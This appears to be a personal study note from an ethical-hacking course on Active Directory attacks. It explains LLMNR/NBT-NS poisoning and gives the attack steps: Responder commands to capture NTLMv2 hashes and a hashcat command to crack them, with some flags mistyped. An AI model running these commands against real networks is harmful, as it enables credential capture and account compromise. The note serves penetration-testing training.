 ___
### What is LLMNR?
- Used to identify hosts when DNS fails to do so.
- Previously NBT-NS
- Key flaw is that the services utilize a user's username and NTLMv2 hash when appropriately responded to.

### Steps:

- Step1 : Run Responder
```
sudo responder -| tun0 -dwp
```

- Step 2 : An Event Occurs...
- Step 3 : Get Dem Hash
- Step 4 : Crack that Hash
```
hashcat -m 5600 hashes.txt rockyou.txt
```

### Practical:
```
sudo responder -eth0
```

![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251023222322.png)
